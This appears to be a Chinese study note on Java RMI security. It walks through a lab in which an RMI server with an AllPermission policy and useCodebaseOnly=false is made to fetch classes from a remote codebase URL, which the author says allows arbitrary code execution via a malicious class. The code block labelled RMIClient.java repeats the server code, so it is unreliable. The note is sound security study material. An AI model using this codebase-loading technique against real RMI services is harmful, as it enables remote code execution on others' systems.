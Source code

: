 ```yaml
---
created: '21/09/13'
title: RMI篇2
tags:
  - java
  - java安全
  - 反序列化 
---
```

# RMI篇2
RMI虽然分成三个部分，但是通常我们在新建RMI Registry的时候对会直接绑定一个对象在上面，也就是说同时承担了Server和Registry的角色。

那么RMI会给我们带来什么安全问题呢？
1. 如果我们能访问RMI Registry服务，如何对其攻击？
2. 如果我们控制了目标RMI客户端中的RMI Registry的地址，能不能进行攻击？

## 如何攻击RMI Registry
RMI Registry是管理远程对象的地方，可以理解为一个后台，但是我们无法直接通过客户端调用"后台"的接口，例如:
```java
RemoteHelloWorld h = new RemoteHelloWorld(); Naming.rebind("rmi://192.168.135.142:1099/Hello", h);
```
也就是说客户端无法调用`rebind`、 `bind`、`unbind`等方法，不只可以使用`list`和`lookup`方法

## RMI利用codebase执行任意代码
RMI中涉及到一个东西: codebase
CLASSPATH，但CLASSPATH是本地路径，而codebase通常是远程URL，比如http、ftp等。 如果我们指定codebase=`http://example.com/`，然后加载org.vulhub.example.Example类，则 Java虚拟机会下载这个文件`http://example.com/org/vulhub/example/Example.class`，并作为 Example类的字节码。

所以如果我们能控制codebase，就可以加载恶意类了，但是这存在限制的:
- 安装并配置了SecurityManager
- Java版本低于7u21、6u45，或者设置了java.rmi.server.useCodebaseOnly=false，在此配置为true时，jvm只信任预先配置好的codebase，我们也就无法利用了

## 攻击代理示例
先创建四个文件:
- Calc.java
- ICalc.java
- RMIServer.java
- client.policy

目录结构和代码如下:
![](https://gitee.com/guuest/images/raw/master/img/20210913155401.png)

```java
package top.longlone.attackRMI;

import java.rmi.Remote;
import java.rmi.RemoteException;
import java.util.List;

public interface ICalc extends Remote {
    public Integer sum(List<Integer> numbers) throws RemoteException;
}
```

```java
package top.longlone.attackRMI;  
  
import top.longlone.attackRMI.ICalc;  
  
import java.rmi.RemoteException;  
import java.rmi.server.UnicastRemoteObject;  
import java.util.List;  
  
public class Calc extends UnicastRemoteObject implements ICalc {  
 protected Calc() throws RemoteException {  
 }  
 @Override  
 public Integer sum(List<Integer> numbers) throws RemoteException {  
 Integer sum = 0;  
 for (Integer number : numbers) {  
 sum += number;  
 }  
 return sum;  
 }  
}
```

```java
package top.longlone.attackRMI;  
  
import java.rmi.Naming;  
import java.rmi.registry.LocateRegistry;  
  
public class RMIServer {  
 private void start() throws Exception {  
 System.out.println("setup SecurityManager");  
 System.setSecurityManager(new SecurityManager());  
  
 Calc h = new Calc();  
 LocateRegistry.createRegistry(1099);  
 Naming.rebind("rmi://192.168.123.150:1099/Calc", h);  
 }  
  
 public static void main(String[] args) throws Exception {  
 new RMIServer().start();  
 }  
}
```

```
grant {  
permission java.security.AllPermission;  
};
```

然后执行`javac *.java*`对java代码进行编译

再编写RMIClient.java

```java
package top.longlone.attackRMI;

import java.rmi.Naming;
import java.rmi.registry.LocateRegistry;

public class RMIServer {
    private void start() throws Exception {
        System.out.println("setup SecurityManager");
        System.setSecurityManager(new SecurityManager());

        Calc h = new Calc();
        LocateRegistry.createRegistry(1099);
        Naming.rebind("rmi://192.168.123.150:1099/Calc", h);
    }

    public static void main(String[] args) throws Exception {
        new RMIServer().start();
    }
}
```

同样需要将RMIClient编译，这里有个特别注意的点是:**这个Client我们需要在另一个位置运行，因为我们需要让RMI Server在本地CLASSPATH里找不到类，才会去加载codebase中的类，所以不能将RMIClient.java放在RMI Server所在的目录中。**

这时我们再执行命令起一个服务器来测试Client是否去我们指定的恶意地址远程请求类，可以使用python或者php简单起个服务器即可

运行Server和Client:
`D:\Coding\java\maven_study\target\classes>java -Djava.rmi.server.useCodebaseOnly=false -Djava.rmi.server.codebase=http://127.0.0.1:7777/ top.longlone.RMIClient`

`D:\Coding\java\maven_study\src\main\java>java -Djava.rmi.server.hostname=192.168.123.150 -Djava.rmi.server.useCodebaseOnly=false -Djava.security.policy=top/longlone/attackRMI/client.policy top.longlone.attackRMI.RMIServer`

可以看见确实请求了`/top/longlone/RMIClient$1.class`，那么我们只要在远程去部署一个恶意的class文件就能让他执行任意代码了
![](https://gitee.com/guuest/images/raw/master/img/20210913160901.png)


这里和pdf有些不一样的地方: pdf里抛出了一个magic value不正确的错误，但我这里抛出了一个ClassNotFound错误
![](https://gitee.com/guuest/images/raw/master/img/20210913161020.png)